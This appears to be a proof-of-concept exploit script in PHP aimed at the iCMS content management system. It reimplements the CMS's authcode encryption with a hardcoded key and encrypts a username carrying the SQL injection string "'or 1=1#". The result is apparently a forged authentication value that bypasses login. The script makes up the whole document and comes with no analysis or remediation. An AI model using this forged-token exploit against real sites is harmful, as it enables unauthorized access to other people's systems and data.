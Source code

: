 ```php
<?php
define('iPHP_KEY','n9pSQYvdWhtBz3UHZFVL7c6vf4x6fePk');

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
	$ckey_length   = 8;
	$key           = md5($key ? $key : iPHP_KEY);
	$keya          = md5(substr($key, 0, 16));
	$keyb          = md5(substr($key, 16, 16));
	$keyc          = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

	$cryptkey      = $keya.md5($keya.$keyc);
	$key_length    = strlen($cryptkey);

	$string        = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);

	$result        = '';
	$box           = range(0, 255);

	$rndkey        = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
		$j       = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp     = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a       = ($a + 1) % 256;
		$j       = ($j + $box[$a]) % 256;
		$tmp     = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result  .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }
}
$sep = "#=iCMS=#";
$username = "'or 1=1#";
$password = "1";
$payload = $username.$sep.$password;
echo authcode($payload,'ENCODE');
```
